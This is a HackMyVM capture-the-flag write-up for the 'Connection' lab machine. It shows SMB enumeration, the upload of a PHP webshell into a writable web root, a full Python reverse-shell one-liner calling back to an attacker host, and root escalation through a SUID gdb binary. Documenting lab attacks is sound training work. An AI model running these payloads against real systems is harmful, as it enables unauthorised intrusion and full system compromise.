

## 🖥️ Machine Information

<div class="hmv-info-card">
  <div class="hmv-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="hmv-machine-title">Connection</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="hmv-diff-badge easy">EASY</span>
  </div>

  <div class="hmv-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Platform</span>
      <span class="hmv-meta-val orange">HackMyVM</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">OS</span>
      <span class="hmv-meta-val">🐧 Linux</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Difficulty</span>
      <span class="hmv-meta-val">Easy</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">IP Address</span>
      <span class="hmv-meta-val" style="font-family: monospace; font-size: 0.95rem;">192.168.56.106</span>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **Connection** machine on the **HackMyVM** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We scan the target using Nmap:

```bash
nmap -p- -sC -sV 192.168.56.106
```

#### Open Ports:
```text
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian
```

### 2. Web Service Enumeration
Accessing port 80 returns the default Apache Debian page. Directory brute-forcing yields no valuable results.

### 3. SMB Enumeration
We list the available SMB shares using anonymous login:

```bash
smbclient --no-pass -L //192.168.56.106
```

```text
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        share           Disk
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Private Share for uploading files)
```

We connect to the `share` directory and explore its contents:

```bash
smbclient -N \\\\192.168.56.106/share
```

```text
smb: \> ls
  .                                   D        0  Wed Sep 23 09:48:39 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  html                                D        0  Wed Sep 23 10:20:00 2020
```

Inside `html/`, we find only `index.html`. This `html` directory is the Apache web root — and it is world-writable!

---

## 🚀 Phase 2: Foothold via SMB Webshell Upload

### 1. Upload PHP Webshell
We write a PHP webshell to the `html` directory through SMB:

```bash
smb: \html\> put webshell.php
```

```text
putting file webshell.php as \html\webshell.php
```

The file is immediately accessible and parsed by Apache:

```bash
curl http://192.168.56.106/webshell.php
```

### 2. Connect via AntSword C2
We connect to the uploaded webshell using **AntSword**, which provides a full file manager and remote shell interface.

Through AntSword, we read the user flag:
```bash
cat /home/connection/local.txt
```
Output: `3f491443a2a6aa82bc86a3cda8c39617`

We then execute a Python reverse shell to gain a stable shell:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

We receive the shell on our listener:
```text
Connection received on 192.168.56.106
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## ⚡ Phase 3: Privilege Escalation via GDB SUID

### 1. SUID Binary Discovery
We enumerate SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

We identify an unusual SUID binary:
```text
-rwsr-sr-x 1 root root 7.7M Oct 14  2019 /usr/bin/gdb
```

`gdb` has the SUID bit set, meaning it runs as root. Since `gdb` supports embedded Python scripting, we can abuse it to execute shell commands with root privileges.

### 2. Root Shell via GDB Python
We run `gdb` with a Python-based `os.execl()` call using the `-p` flag to preserve the effective UID (root):

```bash
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

```text
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

We retrieve the root flag:
```bash
cat /root/proof.txt
```
Output: `a7c6ea4931ab86fb54c5400204474a39`

